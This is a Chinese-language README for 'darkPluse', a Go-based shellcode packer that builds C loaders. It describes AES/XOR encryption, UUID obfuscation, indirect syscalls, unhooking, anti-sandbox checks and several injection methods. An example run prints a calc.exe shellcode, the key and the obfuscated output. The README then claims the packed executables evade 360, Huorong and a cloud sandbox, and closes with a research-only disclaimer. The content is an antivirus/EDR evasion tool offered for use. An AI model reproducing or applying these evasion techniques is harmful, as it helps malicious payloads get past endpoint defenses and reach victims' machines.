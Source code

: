 darkPluse是一个用go编写的shellcode Packer，用于生成各种各样的shellcode loader。

目前只实现了c语言的模板。

支持aes/xor加密，uuid/words混淆，支持间接syscall和unhook两种模式下的callback，fiber，earlybird三种加载方式。

间接sysacll使用了SysWhispers3的项目，链接：[klezVirus/SysWhispers3: SysWhispers on Steroids - AV/EDR evasion via direct system calls. (github.com)](https://github.com/klezVirus/SysWhispers3)

unhook使用了[自定义跳转函数的unhook方法 - root@Ev1LAsH ~ (killer.wtf)](https://killer.wtf/2022/01/19/CustomJmpUnhook.html)文中所讲述的方法，文中提到的github仓库https://github.com/trickster0/LdrLoadDll-Unhooking 只实现了64位下的demo，我在 [fdx-xdf/LdrLoadDll-Unhooking-x86-x64 (github.com)](https://github.com/fdx-xdf/LdrLoadDll-Unhooking-x86-x64) 完善了32位和64位通用的一段代码。

使用方法：

首先要配好gcc的环境，命令行运行`gcc -v`有反应即可

```
     _            _    _____  _
     | |          | |  |  __ \| |
   __| | __ _ _ __| | _| |__) | |_   _ ___  ___
  / _' |/ _' | '__| |/ /  ___/| | | | / __|/ _ \
 | (_| | (_| | |  |   <| |    | | |_| \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    |_|\__,_|___/\___|

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

Usage:
  -i <path>: 原始格式 Shellcode 的路径
  -enc <encryption>: Shellcode加密方式 (默认: aes)
  -lang <language>: 加载器的语言 (默认: c)
  -o <output>: 输出文件 (默认: Program)
  -k <keyLength>: 加密的密钥长度 (默认: 16)
  -obf <obfuscation>: 混淆Shellcode以降低熵值 (默认: uuid)
  -f <framework>: 目标架构32位还是64位
  -sandbox <true/false>: 是否开启反沙箱模式 (默认: true)
  -unhook <true/false>: 是否开启unhook模式 (默认: false,使用间接syscall加载)
  -loading <loadingTechnique>: 请选择加载方式，支持callback, fiber, earlybird (默认: fiber)
```

示例：

```
darkPluse.exe -i calc_shellcode.bin -f 32 -sandbox -unhook

     _            _    _____  _
     | |          | |  |  __ \| |
   __| | __ _ _ __| | _| |__) | |_   _ ___  ___
  / _' |/ _' | '__| |/ /  ___/| | | | / __|/ _ \
 | (_| | (_| | |  |   <| |    | | |_| \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    |_|\__,_|___/\___|

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

开始为您打包exe

原始shellcode:0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c
, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1
, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48
, 0x01, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31
, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58
, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89
, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a
, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56
, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72
, 0x6f, 0x6a, 0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00

[+] Generated AES key: 0x66, 0x4d, 0x72, 0x41, 0x70, 0x62, 0x37, 0x70, 0x4b, 0x5a, 0x68, 0x43, 0x62, 0x47, 0x69, 0x6d

[+] Generated IV (16-byte): 0x75, 0x4c, 0x73, 0x77, 0x44, 0x4b, 0x36, 0x62, 0x52, 0x53, 0x6b, 0x76, 0x64, 0x57, 0x62, 0x
32

[+] Using AES-128-CBC encryption

进行加密后的shellcode：0x17, 0x12, 0xa9, 0xb3, 0x8e, 0x84, 0x5b, 0x43, 0xd3, 0x93, 0x42, 0x09, 0x26, 0x6b, 0x16, 0x90, 0
xd9, 0xa0, 0x27, 0x18, 0x5a, 0x91, 0xc8, 0x15, 0xb3, 0x93, 0x4c, 0xf6, 0x65, 0x13, 0x10, 0x0c, 0x00, 0x81, 0xd6, 0xc9, 0
x4f, 0x45, 0x41, 0xa6, 0x5f, 0xc8, 0x69, 0x4e, 0x12, 0x2f, 0x04, 0x55, 0xf2, 0x54, 0x06, 0x15, 0x93, 0x72, 0xbd, 0x6d, 0
x4d, 0x40, 0x77, 0xba, 0x3d, 0x04, 0xb8, 0x9b, 0xcd, 0x6c, 0xe9, 0x08, 0x0f, 0x47, 0xeb, 0x38, 0x35, 0x6a, 0xb3, 0x7f, 0
xfc, 0xfe, 0xd2, 0x7c, 0x8b, 0xeb, 0x08, 0x1f, 0x33, 0x8d, 0xbf, 0xbb, 0x76, 0x53, 0x04, 0x10, 0x70, 0xf2, 0xa9, 0xb0, 0
xb9, 0x8a, 0x0c, 0xc3, 0xcb, 0xce, 0x7c, 0x21, 0x57, 0x11, 0x6f, 0x0c, 0x72, 0x1f, 0x8e, 0x0c, 0xc0, 0xe0, 0x06, 0x93, 0
xe9, 0x64, 0x1e, 0x1e, 0x06, 0x07, 0x16, 0x7d, 0x6f, 0xa0, 0x3e, 0x5d, 0x53, 0x91, 0xef, 0x94, 0x39, 0x84, 0x83, 0x0a, 0
xb4, 0x6e, 0xdd, 0xa8, 0x82, 0x38, 0x8a, 0x20, 0x9b, 0x40, 0x31, 0xaa, 0xb8, 0xd5, 0xe3, 0x60, 0x76, 0xc7, 0x5c, 0x98, 0
xbe, 0xba, 0xd5, 0x55, 0xe1, 0x2c, 0x0f, 0xf3, 0x6a, 0x47, 0x02, 0x03, 0xdd, 0xc3, 0xf0, 0x51, 0x64, 0x20, 0xe8, 0x74, 0
xcf, 0xac, 0x19, 0xbd, 0xf7, 0xae, 0x44, 0x53, 0x91, 0x60, 0x76, 0x36, 0xa0, 0xed, 0x75, 0x3a, 0xcb, 0x5a, 0xda, 0xeb, 0
xc5, 0x6f, 0x9d, 0x44, 0x8c, 0xd2, 0xbb, 0xc6, 0xd1, 0xe0, 0x7d, 0x48

[+] Generated UUIDs:"b3a91217-848e-435b-d393-4209266b1690",
"1827a0d9-915a-15c8-b393-4cf66513100c",
"c9d68100-454f-a641-5fc8-694e122f0455",
"150654f2-7293-6dbd-4d40-77ba3d04b89b",
"08e96ccd-470f-38eb-356a-b37ffcfed27c",
"1f08eb8b-8d33-bbbf-7653-041070f2a9b0",
"c30c8ab9-cecb-217c-5711-6f0c721f8e0c",
"9306e0c0-64e9-1e1e-0607-167d6fa03e5d",
"94ef9153-8439-0a83-b46e-dda882388a20",
"aa31409b-d5b8-60e3-76c7-5c98bebad555",
"f30f2ce1-476a-0302-ddc3-f0516420e874",
"bd19accf-aef7-5344-9160-7636a0ed753a",
"ebda5acb-6fc5-449d-8cd2-bbc6d1e07d48",

正在为您生成模板文件: Program.c

编译成功: Program.exe
```

即在当前目录下生成 Program.exe

注意：syscall下的earlybird方式由于某些bug并没有使用间接syscall方式加载，尽量不要使用，另外xor+uuid的特征过于明显，尽量不要使用。

目前实现效果如下：

微步云沙箱无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1711596621444-4b4ab40f-7327-481f-a5f8-ca2d39330db6.png#averageHue=%23a0dcba&clientId=u723e99f6-9ffc-4&from=paste&height=911&id=u10f5a780&originHeight=1367&originWidth=2549&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=218236&status=done&style=none&taskId=u85e7150f-15a5-4768-a501-f4ea03a3050&title=&width=1699.3333333333333)

360（未开核晶）：无检出

![image](https://github.com/fdx-xdf/goPacker/assets/117912115/c3dcf083-609e-4b55-87c1-8311e5d28a40)

火绒：无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712452727509-f3c2d4b3-90ab-448d-9335-d8ac90a3a2a3.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

360（开启核晶）：无检出（使用syscall和unhook两种方式生成的exe均成功绕过核晶）

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712553684319-6e2573f1-7d58-4c36-9f92-4dba958a67f5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)
to do list:

- go模板
- 更多加密算法
- 分离加载
- ~~- unhook~~
- .....

## 免责声明

本项目仅用安全研究的学习交流和研究，强烈不建议您用于任何的实际途径（包括黑灰产交易、非法渗透攻击、割韭菜），网络不是法外之地！如果您使用该工具则应该自觉遵守以上要求。
